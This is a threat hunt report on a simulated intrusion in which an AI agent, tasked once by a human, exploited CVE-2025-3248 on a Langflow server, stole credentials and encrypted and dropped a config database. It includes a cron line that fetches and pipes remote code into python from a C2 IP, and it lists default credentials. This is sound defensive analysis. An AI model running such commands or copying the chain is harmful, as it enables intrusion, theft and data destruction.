





# 🛡 Threat Hunt Report: JadePuffer

---

## 📌 Executive Summary

An internet-facing Langflow server on the Flowforge Linux estate was taken over through a known, unpatched flaw (CVE-2025-3248) that lets anyone run code without logging in. Within about 17 minutes the intruder, an AI agent given a single written instruction by a human, stole credentials for eight AI and cloud providers, used factory-default passwords to reach the object store and configuration server, encrypted and then deleted the configuration database, and left a ransom note. The encryption key was never saved, so paying would not restore anything; recovery depends on backups.

### 🔑 Key Findings at a Glance

| Category | Detail |
|----------|--------|
| 🔴 **Risk Rating** | `CRITICAL` |
| ⏱ **Attacker Dwell Time** | About 17 minutes (19:20:01 to 19:37:00 UTC) |
| 🖥 **Systems Compromised** | 4: `ff-lf-01` (entry), `ff-minio-01`, `ff-nacos-01`, `ff-db-01` |
| 👤 **Accounts Affected** | `langflow` (service account, abused), `minioadmin` (default), Nacos admin session; `svc_maint` created by the attacker |
| 📦 **Data Taken** | Postgres tables `variable` and `api_key` (8 provider families classified); `terraform-state/credentials.json` from MinIO |
| 💥 **Data Destroyed** | MySQL `config_info` (1,342 rows encrypted, then dropped) and `history` (dropped) |
| 🔑 **Credentials Exposed** | LLM provider keys, cloud provider keys, database logins, Terraform state credentials, MinIO and Nacos defaults |
| 🌐 **Exfil Destination** | Not established. No bulk upload was observed in the telemetry reviewed |
| 🕵 **Attacker Infrastructure** | Exploit source `64.20.53.230`; C2 `45.131.66.106:4444` |
| 📋 **Breach Notification** | Undetermined. Depends on what the stolen credentials and Terraform state could reach, which the telemetry cannot show |

---

## 🎯 Hunt Objectives

- Identify the entry point and reconstruct the full chain, host by host
- Separate attacker activity from look-alike routine activity on the same hosts
- Map each step to MITRE ATT&CK and the Pyramid of Pain
- Decide whether a human or an autonomous agent drove the intrusion, using telemetry
- Build and validate detection rules from what the hunt found
- Record telemetry gaps honestly instead of filling them with assumptions

---

## 🧭 Scope & Environment

| Field | Detail |
|-------|--------|
| **Platform** | Microsoft Sentinel style SIEM simulation, KQL |
| **Run ID** | `jp-46-20260730` |
| **Domain / Estate** | Flowforge Linux estate (fictional) |
| **Hosts In Scope** | `ff-lf-01` (Langflow), `ff-minio-01` (object store), `ff-nacos-01` (config server), `ff-db-01` (Postgres and MySQL) |
| **Data Sources** | `LinuxProcess_CL`, `LinuxNetwork_CL`, `LinuxAudit_CL`, `LinuxSystem_CL`, `LinuxShellHistory_CL`, `LinuxContainer_CL`, `LinuxFile_CL`, `LLMAgentLogs_CL`, `Syslog` |
| **Investigation Window** | 2026-07-30 19:20 to 19:40 UTC (rules validated over the full day) |
| **Hunt Triggered By** | Alert queue entries on `ff-lf-01` |

> **Time handling.** Every query carries an explicit time interval and the run ID. Some tables stamp ingestion time (`TimeGenerated`) rather than event time, so ordering inside a ten-second span across tables is approximate.

---

## 📚 Table of Contents

- [📌 Executive Summary](#-executive-summary)
- [🎯 Hunt Objectives](#-hunt-objectives)
- [🧭 Scope & Environment](#-scope--environment)
- [🔬 Hunt Hypothesis & Method](#-hunt-hypothesis--method)
- [🧠 Hunt Overview](#-hunt-overview)
- [🕐 Attack Timeline](#-attack-timeline)
- [👤 Attacker Profile](#-attacker-profile)
- [🔴 IOC Summary](#-ioc-summary)
- [🧬 MITRE ATT&CK Summary](#-mitre-attck-summary)
- [🤖 MITRE ATLAS Mapping](#-mitre-atlas-mapping)
- [🧩 TTP Analysis & OWASP Mapping](#-ttp-analysis--owasp-mapping)
- [🔍 Flag Analysis](#-flag-analysis)
- [🚨 Detection Gaps & Telemetry Gaps](#-detection-gaps--telemetry-gaps)
- [🧪 Detection Rules Built](#-detection-rules-built)
- [🧰 Remediation & Containment Checklist](#-remediation--containment-checklist)
- [🧾 Final Assessment](#-final-assessment)
- [🔧 What I'd Improve](#-what-id-improve)
- [📎 Analyst Notes](#-analyst-notes)

---

## 🔬 Hunt Hypothesis & Method

| Field | Detail |
|-------|--------|
| **Hypothesis** | An internet-facing Langflow server was exploited through an unauthenticated code-execution flaw, and the intruder moved across the estate to extort through database encryption. The speed and self-correction suggest an LLM agent drove it. |
| **Approach** | Entry host process lineage, then network connections by process ID, then cron and shell history, then the LLM agent logs, then audit and syslog on the other three hosts. |
| **Baseline used** | Routine cron jobs, the nightly `backup` account's `pg_dump` runs, the Langflow service start at 19:19:00, the estate's own agent session, and admin shell history. |

### 🔬 Real or Noise: Benign Look-Alikes Ruled Out

A hunt is only as good as its false-positive discipline. These looked suspicious and were not.

| Look-alike activity | Why it looked suspicious | What proved it benign (field and value) |
|---------------------|--------------------------|------------------------------------------|
| Nightly `pg_dump` runs | Same tool as the credential theft | Account `backup`, output to `/backup/nightly`. The hostile run was account `langflow` |
| python3.11 PID 3201 | Same binary as the attacker's interpreters | Parent was `systemd`. The attacker's parents were the web service and another inline interpreter |
| api.github.com, registry.npmjs.org, HuggingFace | External destinations from the entry host | All on port 443. The C2 was the only external destination on 4444 |
| Estate agent session `fa-5d1caf68` | A second LLM agent in the same logs | Actor `flowforge-assistant`; its task was summarising failed ETL runs |
| A developer's pull from MinIO | Legitimate object access at the same time | Different source host. The attacker used default credentials from `ff-lf-01` |
| Routine cron entries (certbot, logrotate, ntpdate, queue drain, disk and port checks) | Cron activity on the entry host | Known ops commands. The malicious entry ran as `langflow` with `curl ... \| python3 -` to a raw IP |
| Admin shell history on `ff-lf-01` | Commands on the same host after the attack | `dpkg --audit` and `apt-get -s upgrade` are routine patch checks by named admins |
| Application account running `AES_ENCRYPT` on `ff-db-01` | Encryption function in the SQL log | A real Nacos product feature; 41 routine statements in the window. Account and target table separated it from the attack |

---

## 🧠 Hunt Overview

The entry point was Langflow on `ff-lf-01`, listening on port 7860. At 19:20 an automated client (`python-requests/2.32.3`, source `64.20.53.230`) posted to `/api/v1/validate/code`, an endpoint that runs submitted Python and required no authentication. The web service forked `python3.11` with a base64 payload, and within seconds the intruder had run `id` and `uname`, opened a channel to `45.131.66.106:4444`, and later installed a 30-minute cron job to restore it.

From the entry host the intruder worked outward at machine speed. It dumped Langflow's own Postgres tables as the `langflow` account and sorted the secrets into eight provider families in a single pass. A second interpreter then touched MinIO, MySQL and Nacos within five seconds. MinIO accepted its factory-default login, and the intruder took Terraform state credentials. On Nacos it forged an admin token using the default signing key, was rejected once for a blank password hash, corrected itself in 31 seconds, and created a backdoor account called `svc_maint`.

The finish was extortion. On `ff-db-01` the intruder encrypted 1,342 rows of `config_info`, dropped it and `history`, and wrote a `README_RANSOM` table with a contact email and a Bitcoin address. The LLM agent log shows one human instruction at the start of the session and nothing after it, which makes this human-tasked and autonomously executed. The whole chain ran in about 17 minutes.


---

## 🕐 Attack Timeline

All times UTC, 2026-07-30.

| Timestamp | Host | Action | MITRE |
|-----------|------|--------|-------|
| 19:19:00 | ff-lf-01 | Langflow service starts (PID 3201, parent systemd). Baseline | n/a |
| 19:20:01 | ff-lf-01 | Intruder agent session `jp-7f3c9a21` begins; POST `/api/v1/validate/code` (CVE-2025-3248) | T1190 |
| 19:20:04 | ff-lf-01 | python3.11 PID 4471 spawned by `langflow run`; payload is inline base64 | T1059.006, T1027 |
| 19:20:05 to 19:20:08 | ff-lf-01 | `id`, `uname -a` | T1033, T1082 |
| About 19:23 | ff-lf-01 | Beacon to 45.131.66.106:4444 begins | T1571 |
| 19:25:07 | ff-lf-01 | `pg_dump` of `variable` and `api_key` as `langflow` | T1552 |
| 19:25:13 | ff-lf-01 | Agent classifies harvested secrets into 8 provider families | T1552 |
| 19:27:28 | ff-lf-01 | python3.11 PID 4491 sweeps the internal subnet | T1046 |
| 19:30:34 | ff-minio-01 | Default `minioadmin` login accepted; `terraform-state/credentials.json` retrieved | T1078.001, T1552.001 |
| 19:30:35 | ff-lf-01 | Agent receives XML where it expected JSON, adjusts parser, refetches | n/a |
| 19:33:39 | ff-nacos-01 | Agent plans a forged JWT with the default signing key and an admin account | T1078.001 |
| 19:34:36 | ff-nacos-01 | `POST /nacos/v1/auth/users` rejected, 403 "blank password hash rejected" | T1136.001 |
| 19:35:07 | ff-nacos-01 | Corrected request succeeds: account `svc_maint` created (pid 8801, uid 997) | T1136.001 |
| 19:35:21 | ff-nacos-01 | Admin session established | T1078 |
| 19:35:30 | ff-lf-01 | `GET /containers/json` over docker.sock; response not logged | T1611 |
| 19:35:51 to 19:35:58 | ff-lf-01 | Cron `*/30 * * * *` beacon installed as `langflow` | T1053.003 |
| 19:36:30 | ff-db-01 | `UPDATE config_info SET content=AES_ENCRYPT(...)`, 1,342 rows | T1486 |
| 19:36:37 to 19:36:38 | ff-db-01 | `DROP TABLE config_info`, `DROP TABLE history` | T1485 |
| 19:37:00 | ff-db-01 | `README_RANSOM` written; agent finalises. Key printed to stdout only | T1486 |

> The cron execution log (19:35:51) precedes the shell-history install command (19:35:58) because the two tables stamp time differently. Ordering within that span is approximate.

---

## 👤 Attacker Profile

| Attribute | Detail |
|-----------|--------|
| **Actor / Agent ID** | `jadepuffer-agent`, session `jp-7f3c9a21` |
| **Contact** | `e78393397@proton.me` (from the ransom note) |
| **Payment address** | `3J98t1WpEZ73CNmQviecrnyiWrnqRhWNLy`, which the platform identifies as the Bitcoin documentation example address, so nobody can be paid there |
| **C2 Infrastructure** | `45.131.66.106:4444` |
| **Exploit source** | `64.20.53.230`, user agent `python-requests/2.32.3` |
| **Tools Used** | Inline `python3 -c`, `curl`, `crontab`, `pg_dump`, MySQL client, S3 API calls, Docker socket |
| **TTPs** | Exploit of a public CVE, living off the land, default credentials, cron persistence, encrypt-then-drop |
| **Targeting** | Targeted at the estate by instruction ("Gain access to the Flowforge estate..."), using a public CVE rather than custom exploitation |
| **Sophistication** | Medium. Fast and adaptive, but several careless choices (below) |

### 🔍 OPSEC Mistakes Observed

- The agent narrated its plan, including the CVE number, in logs the defender can read
- Cron persistence used `curl ... | python3 -` to a raw IP on port 4444, which is easy to spot once you look for it
- The ransom wallet was a documentation placeholder that cannot receive payment
- The encryption key was printed to stdout and never stored, so even the attacker could not decrypt

---

## 🔴 IOC Summary

### 🌐 Network Indicators

| Type | Indicator | Context | Action |
|------|-----------|---------|--------|
| IP | `64.20.53.230` | Exploit source for CVE-2025-3248 | `BLOCK` |
| IP:port | `45.131.66.106:4444` | C2 and cron beacon target | `BLOCK` |
| URL | `http://45.131.66.106:4444/b` | Payload fetched by the cron job | `BLOCK` |
| User agent | `python-requests/2.32.3` | Exploit client | `HUNT` |
| Email | `e78393397@proton.me` | Ransom contact | `TRACK` |
| Wallet | `3J98t1WpEZ73CNmQviecrnyiWrnqRhWNLy` | Ransom payment address (documentation example) | `TRACK` |

### 📁 File and Persistence Indicators

| Type | Indicator | Location | Hash (SHA256) |
|------|-----------|----------|--------------|
| Dump file | `keys.sql` | `/tmp/.lf/keys.sql` | N/A (collector records no hashes) |
| Dump file | `creds.json` | `/tmp/.lf/creds.json` | N/A (collector records no hashes) |
| Cron entry | `*/30 * * * * curl -s http://45.131.66.106:4444/b \| python3 -` | `langflow` crontab | N/A |
| Database table | `README_RANSOM` | `ff-db-01` MySQL | N/A |

### 👤 Account Indicators

| Account | Type | Action Required |
|---------|------|----------------|
| `langflow` | Compromised service account | Rotate credentials, remove cron entry, restrict crontab access |
| `svc_maint` | Backdoor account (Nacos) | Delete immediately, audit what it did |
| `minioadmin` | Default account | Change password, disable if unused |
| Nacos admin session and default JWT signing key | Forged admin access | Replace the signing key, invalidate tokens |

### 🔑 Credential Exposure

| Credential | Where Found | Reset Required |
|------------|-------------|---------------|
| OpenAI, Anthropic, DeepSeek, Gemini keys | Postgres `variable` and `api_key` tables | YES, immediate |
| Alibaba, Aliyun, Tencent, Huawei cloud keys | Postgres `variable` and `api_key` tables | YES, immediate |
| Database logins | Same dump | YES, immediate |
| Terraform state and service credentials | `terraform-state/credentials.json` in MinIO | YES, immediate, plus review of what they can reach |
| MinIO default `minioadmin:minioadmin` | Never changed | YES |

---

## 🧬 MITRE ATT&CK Summary

Priority is how urgently the step needs a detection rule. **Pyramid tier** is how painful it is for the attacker to change that indicator: hashes and IPs are cheap to swap, behaviours (TTPs) are expensive.

| # | Flag Name | Tactic | Technique ID | Technique Name | Priority | Detection Status | Pyramid Tier |
|--:|-----------|--------|-------------|----------------|----------|------------------|--------------|
| 1 | Exploited endpoint | Initial Access | T1190 | Exploit Public-Facing Application | 🔴 Critical | Alerted | Tool (CVE) |
| 2 | Spawned interpreter | Execution | T1059.006 | Python | 🔴 Critical | Alerted | TTP (lineage) |
| 3 | System discovery | Discovery | T1033 / T1082 | System Owner/User, System Information Discovery | 🟡 Medium | Hunted only | Artifact |
| 4 | C2 beacon | Command and Control | T1571 | Non-Standard Port | 🟠 High | Alerted | IP, with port as the behavioural tell |
| 5 | Cron persistence | Persistence | T1053.003 | Cron | 🟠 High | Alerted | Artifact |
| 6 | Credential dump | Credential Access | T1552 | Unsecured Credentials | 🔴 Critical | Hunted only | TTP (account identity) |
| 7 | Subnet sweep | Discovery | T1046 | Network Service Discovery | 🟡 Medium | Hunted only | TTP |
| 8 | MinIO default credentials | Credential Access | T1078.001 | Valid Accounts: Default Accounts | 🔴 Critical | Hunted only | Tool / config |
| 9 | Terraform state theft | Credential Access | T1552.001 | Credentials In Files | 🔴 Critical | Hunted only | Artifact |
| 10 | Nacos forged token, rejected then accepted | Privilege Escalation | T1078.001 | Default Accounts (also fits T1606 Forge Web Credentials) | 🟠 High | Alerted | Artifact |
| 11 | Backdoor account `svc_maint` | Persistence | T1136.001 | Create Account: Local Account | 🟠 High | Alerted | Artifact |
| 12 | Docker socket probe | Privilege Escalation | T1611 | Escape to Host | 🟡 Medium | Alerted (outcome unknown) | Artifact |
| 13 | Encryption and destruction | Impact | T1486 / T1485 | Data Encrypted for Impact, Data Destruction | 🔴 Critical | Alerted | TTP |
| 14 | Autonomy and guardrail | Execution (ATLAS) | AML.T0053 | AI Agent Tool Invocation (see ATLAS section; OWASP LLM: Excessive Agency) | 🟠 High | Alerted | TTP |

### 📊 Coverage Snapshot

| Total techniques | Alerted by existing rules | Found by hunting only | Not detectable (telemetry gap) | New rules built |
|-----------------:|--------------------------:|----------------------:|-------------------------------:|----------------:|
| 14 | 9 | 5 | 2 gaps (container response, process SHA256) | 2 |

### 🗺 ATT&CK Tactic Coverage

| Tactic | Techniques observed |
|--------|---------------------|
| Initial Access (TA0001) | T1190 |
| Execution (TA0002) | T1059.006 |
| Persistence (TA0003) | T1053.003, T1136.001 |
| Privilege Escalation (TA0004) | T1078.001, T1611 |
| Defense Evasion (TA0005) | T1027 |
| Credential Access (TA0006) | T1552, T1552.001, T1078.001 |
| Discovery (TA0007) | T1033, T1082, T1046 |
| Command and Control (TA0011) | T1571 |
| Impact (TA0040) | T1486, T1485 |

---

## 🤖 MITRE ATLAS Mapping

ATLAS is the ATT&CK-style matrix for attacks on and with AI systems. In this hunt the AI sits on the attacker's side: the intruder's agent did the work. ATLAS therefore describes the agent's behaviour, not a weakness in a Flowforge model.

### ATLAS techniques observed

| Observation | Flag | ATLAS technique | Tactic | Evidence | Fit |
|-------------|------|-----------------|--------|----------|-----|
| The attacker's agent called shell, SQL and HTTP tools on its own to run the chain | Spawned interpreter, sweep, impact | AML.T0053 AI Agent Tool Invocation | Execution | `LLMAgentLogs_CL.tool_args` | Closest fit (my judgement) |
| Ransom note and destroyed data harm the victim outside the agent itself | Encryption and destruction | AML.T0048 External Harms | Impact | `Syslog` on `ff-db-01` | Good |

### Seen in the telemetry, no ATLAS technique

| Observation | Why it is not an ATLAS technique | Where it is covered |
|-------------|----------------------------------|---------------------|
| Exploit of the code-validation endpoint | A flaw in the web application, not in a model | ATT&CK T1190 |
| Guardrail logged `allow`, "no policy matched", on encrypt and drop | A missing control, not an attacker technique | OWASP LLM: Excessive Agency |
| One human instruction, then 31-second self-correction | Behaviour fingerprints of an agent | Autonomy table and Flag 10 |

> The exercise platform labels AML.T0054 "LLM Prompt Injection" and AML.T0048 "Adversarial ML-Enabled Product". In the ATLAS catalogue AML.T0051 is LLM Prompt Injection, AML.T0054 is LLM Jailbreak and AML.T0048 is External Harms. I used the catalogue names. Neither injection nor jailbreak is supported by the telemetry: the agent was tasked directly.


---

## 🧩 TTP Analysis & OWASP Mapping

### Tactic: Initial Access (TA0001)
**Goal:** Get code running on an internet-facing host without credentials.

| Technique | What the attacker did | Why it worked | Evidence | Detection | Pyramid |
|-----------|----------------------|---------------|----------|-----------|---------|
| T1190 Exploit Public-Facing Application | POST to `/api/v1/validate/code` from `64.20.53.230`, abusing CVE-2025-3248 | The "validate" endpoint executes code and needed no authentication; a patch had existed for over a year | `Syslog.SyslogMessage`; `LLMAgentLogs_CL.model_response` | Alerted | Tool |

**Defender takeaway:** Patch or restrict the endpoint. The CVE was on the CISA KEV list, so a patch deadline had already passed.

### Tactic: Execution (TA0002) and Defense Evasion (TA0005)
**Goal:** Run commands without leaving an obvious script on disk.

| Technique | What the attacker did | Why it worked | Evidence | Detection | Pyramid |
|-----------|----------------------|---------------|----------|-----------|---------|
| T1059.006 Python | `python3 -c <base64>` spawned directly by `langflow run` (PID 4471), then a second inline interpreter (PID 4491) | A web service forking an interpreter is abnormal but not blocked | `LinuxProcess_CL.ActingProcessCommandLine` | Alerted | TTP |
| T1027 Obfuscated Files or Information | Payloads base64-encoded and generated at runtime | No static string to match | `LinuxProcess_CL.TargetProcessCommandLine` | Alerted | Artifact |

**Behavioural note:** An empty SHA256 does not prove fileless execution. All 34 process events in the window had no hash, including `id`, `uname` and `pg_dump`, so the collector never populates it.
**Defender takeaway:** Detect on parent-child lineage, which survives a change of payload.

### Tactic: Command and Control (TA0011)
**Goal:** Keep a channel back to the operator.

| Technique | What the attacker did | Why it worked | Evidence | Detection | Pyramid |
|-----------|----------------------|---------------|----------|-----------|---------|
| T1571 Non-Standard Port | Outbound to `45.131.66.106` on 4444 | No egress filtering on the app server; all legitimate external traffic used 443 | `LinuxNetwork_CL.DstPortNumber` | Alerted | IP (rotatable); port is the behavioural tell |

**Defender takeaway:** Restrict egress from app servers to known destinations on 443.

### Tactic: Persistence (TA0003)
**Goal:** Survive the loss of the first shell.

| Technique | What the attacker did | Why it worked | Evidence | Detection | Pyramid |
|-----------|----------------------|---------------|----------|-----------|---------|
| T1053.003 Cron | `*/30 * * * *` job running `curl -s http://45.131.66.106:4444/b \| python3 -` as `langflow` | A service account may edit its own crontab | `LinuxShellHistory_CL.Command`; `LinuxSystem_CL` (Facility `cron`) | Alerted | Artifact |
| T1136.001 Create Account | `svc_maint` created on the Nacos host (pid 8801, uid 997) | Admin access via forged token; the name blends with service accounts | `LinuxAudit_CL.EventOriginalMessage` | Alerted | Artifact |

**Behavioural note:** The interval is only visible in the install command, not in cron execution logs.
**Defender takeaway:** Alert on `crontab -` by service accounts and on new accounts created by application binaries.

### Tactic: Credential Access (TA0006)
**Goal:** Turn one foothold into keys for the rest of the estate.

| Technique | What the attacker did | Why it worked | Evidence | Detection | Pyramid |
|-----------|----------------------|---------------|----------|-----------|---------|
| T1552 Unsecured Credentials | `pg_dump` of `variable` and `api_key` as `langflow`; 8 provider families classified | Secrets stored in the app database with local Postgres access | `LinuxProcess_CL`; `LLMAgentLogs_CL.tool_args` | Hunted only | TTP |
| T1078.001 Default Accounts | `minioadmin:minioadmin` accepted by MinIO | Default credentials never changed | `LLMAgentLogs_CL.model_response` | Hunted only | Tool / config |
| T1552.001 Credentials In Files | `terraform-state/credentials.json` retrieved | Infrastructure secrets kept in object storage | `Syslog` on `ff-minio-01` | Hunted only | Artifact |

**Behavioural note:** The agent expected JSON, received XML, rewrote its parser and retried.
**Defender takeaway:** Key the dump rule on account identity, not tool name. The tool runs legitimately every night.

### Tactic: Discovery (TA0007)
**Goal:** Find where the valuable data lives.

| Technique | What the attacker did | Why it worked | Evidence | Detection | Pyramid |
|-----------|----------------------|---------------|----------|-----------|---------|
| T1046 Network Service Discovery | PID 4491 touched exactly `10.4.0.20:9000`, `10.4.0.30:3306`, `10.4.0.40:8848` within five seconds | Flat network; the entry host reaches every service | `LinuxNetwork_CL.ActingProcessId` | Hunted only | TTP |

**Behavioural note:** Three hosts on their documented service ports is not a broad port scan. That points to targeted, machine-driven recon.

### Tactic: Privilege Escalation (TA0004)
**Goal:** Gain admin control of the config server and look for a route to the host.

| Technique | What the attacker did | Why it worked | Evidence | Detection | Pyramid |
|-----------|----------------------|---------------|----------|-----------|---------|
| T1078.001 (platform tag T1068; also fits T1606) | Forged a Nacos token with the unchanged default signing key. First create rejected (403, blank password hash); corrected request accepted 31 seconds later | Default signing key | `Syslog`; `LinuxAudit_CL` | Alerted | Artifact |
| T1611 Escape to Host | `GET /containers/json` via docker.sock | Socket reachable by the service account | `LinuxContainer_CL` | Alerted | Artifact |

**Behavioural note:** The agent noted the socket was reachable and deprioritised it. What it saw cannot be established, because only the request is logged.

### Tactic: Impact (TA0040)
**Goal:** Extort the victim.

| Technique | What the attacker did | Why it worked | Evidence | Detection | Pyramid |
|-----------|----------------------|---------------|----------|-----------|---------|
| T1486 Data Encrypted for Impact | `AES_ENCRYPT` across 1,342 `config_info` rows; key printed to stdout only | Admin on the backing MySQL instance | `Syslog` on `ff-db-01` | Alerted | TTP |
| T1485 Data Destruction | `DROP TABLE config_info`, `DROP TABLE history` | Same | `Syslog` on `ff-db-01` | Alerted | TTP |

**Behavioural note:** `history` was dropped without being encrypted first. If it is Nacos's change history (my inference, not confirmed in the telemetry), that is evidence removal rather than extortion leverage: two motives bundled in one alert.
**Defender takeaway:** With the key never persisted, recovery depends on backups, not payment.

### Autonomy (AI-specific)

| Observation | Evidence |
|-------------|----------|
| One human instruction at session start, none after | `LLMAgentLogs_CL.user_input`, populated once in `jp-7f3c9a21` |
| Self-correction inside 31 seconds | `Syslog` 19:34:36 (403) to `LinuxAudit_CL` 19:35:07 (success), with the diagnosis narrated in `model_response` between them |
| Guardrail logged `allow`, "no policy matched" on destructive calls | `LLMAgentLogs_CL` gate decision |

### 🌐 OWASP Mapping

Lists used: OWASP Top 10 (2021) and OWASP Top 10 for LLM Applications.

| Weakness observed | OWASP category | Flag | Fix |
|-------------------|----------------|------|-----|
| Unauthenticated endpoint executes submitted code | A03:2021 Injection; A07:2021 Identification and Authentication Failures | Exploited endpoint | Patch, require authentication, never evaluate user code in the web process |
| Known-vulnerable Langflow version still exposed | A06:2021 Vulnerable and Outdated Components | Exploited endpoint | Patch SLA for KEV-listed CVEs |
| MinIO default credentials | A07:2021 Identification and Authentication Failures; A05:2021 Security Misconfiguration | MinIO default credentials | Rotate defaults at deployment and enforce it in the build |
| Nacos default JWT signing key | A02:2021 Cryptographic Failures; A05:2021 Security Misconfiguration | Nacos forged token | Replace the signing key, rotate tokens |
| Service account can reach docker.sock | A05:2021 Security Misconfiguration | Docker socket probe | Remove socket mounts, apply least privilege |
| Guardrail allowed encrypt and drop | LLM Top 10: Excessive Agency | Autonomy and guardrail | Default-deny destructive tools, add a human approval step |

---

## 🔍 Flag Analysis

Each section opens in a collapsible block. Queries are reproduced with an explicit time interval. Screenshots show the result on the platform.

<details>
<summary>🚩 <strong>Flag 1: Exploited endpoint, weakness and source</strong> (<code>T1190</code>) 🔴 Critical</summary>

### 🎯 Objective
Get unauthenticated code execution on the internet-facing Langflow host.

### 📌 Finding
A request to `/api/v1/validate/code` immediately preceded the first suspicious process. The agent named CVE-2025-3248 in its own reasoning, and the request came from `64.20.53.230`.

### 🔍 Evidence

| Field | Value |
|-------|-------|
| **Host** | `ff-lf-01` |
| **Request** | `POST /api/v1/validate/code HTTP/1.1` 200, host `langflow.flowforge.io` |
| **Source IP** | `64.20.53.230` |
| **User agent** | `python-requests/2.32.3` |
| **Weakness** | CVE-2025-3248 |

### 💡 Why It Matters
The endpoint was built for the UI to validate snippets but executed arbitrary Python with no authentication gate. Every exploitation of this flaw must hit this exact path, so it is the most durable detection anchor in the chain: a WAF or syslog rule on POSTs to it from non-local sources catches every variant regardless of payload or IP.

### 🔗 Attack Chain Position
First step. It enables the interpreter spawn in Flag 2.

